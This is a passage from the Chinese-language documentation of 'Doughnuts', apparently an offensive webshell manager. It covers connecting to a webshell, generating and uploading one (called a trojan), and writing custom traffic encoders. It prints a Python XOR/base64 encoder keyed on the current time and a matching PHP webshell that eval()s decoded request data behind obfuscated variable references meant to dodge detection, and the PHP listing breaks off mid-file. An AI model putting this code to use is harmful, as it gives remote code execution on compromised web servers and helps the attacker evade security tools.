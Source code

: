         那么只需要运行Doughnuts.py,并输入以下命令,即可成功连接至webshell:

        ```
        connect http://localhost/test.php POST 2333 base64 "data:a=123"
        ```

2. 生成webshell:
    1. 运行doughnuts
    2. 执行`generate a.php POST pass salt 1`生成webshell,名字为a.php
    3. 上传a.php 根据提示执行`connect {木马url} POST pass doughnuts-salt`连接webshell

## 自定义编码器
1. 进入doughnuts/encode目录
2. 新建/拷贝一个py文件,起一个名字,以time.py为例
3. 文件中只需要写一个run函数,类似于
```python
from libs.config import alias


@alias(True)
def run(data: str):
    cipher = data
    return cipher
```
4. 参数解释: data是传输的数据,为字符串,cipher为传出的数据,也应该为字符串
5. 重启doughnuts即可使用`se/show_encoders`命令查看自定义的编码器,连接时使用`connect URL 请求方法 密码 编码器名字`即可使用自定义编码器
6. 一个例子,以时间为秘钥的编码器
```python
from libs.config import alias
from hashlib import md5
from base64 import b64encode
import time


@alias(True)
def run(data: str):
    format_time = time.strftime("%Y-%m-%d %H:%M", time.localtime())
    key = md5(format_time.encode()).hexdigest().encode()
    data = data.encode()
    cipher = bytes(data[i] ^ key[i % 32] for i in range(len(data)))
    cipher = b64encode(cipher).decode()

    return cipher
```
对应的php webshell
```php
<?php 
class COMI { 
    public $c='';
    function __destruct() {
        return eval(substr($this->c, 0));
    }
}
date_default_timezone_set("PRC");
$comi = new COMI();
$password = &$password1;
$password1 = $_REQUEST['x'];
$post = &$password;
$post=base64_decode($post);
$key=md5(date("Y-m-d H:i",time()));
for($i=0;$i<strlen($post);$i++){
    $post[$i] = $post[$i] ^ $key[$i%32];
}
$lnng1 = &$lnng;
$lnng = $post;
```